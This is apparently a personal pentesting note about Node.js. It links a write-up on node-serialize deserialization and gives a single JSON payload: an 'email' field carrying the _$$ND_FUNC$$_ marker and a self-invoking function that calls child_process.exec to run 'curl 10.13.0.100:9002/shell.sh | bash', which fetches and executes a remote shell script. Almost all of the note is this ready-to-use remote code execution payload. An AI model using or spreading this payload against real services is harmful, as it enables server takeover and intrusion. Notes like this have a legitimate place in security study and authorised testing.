 ```yaml
---
creation date: July 24th 2023
last modified date: July 24th 2023
aliases: []
tags: #📕
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #📕  

# [[Node.js ]]  
___

## Description:  

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```node.js
{"email":"_$$ND_FUNC$$_function (){\nrequire('child_process').exec('curl 10.13.0.100:9002/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) });\n}()"}
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 24th 2023 (10:28 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
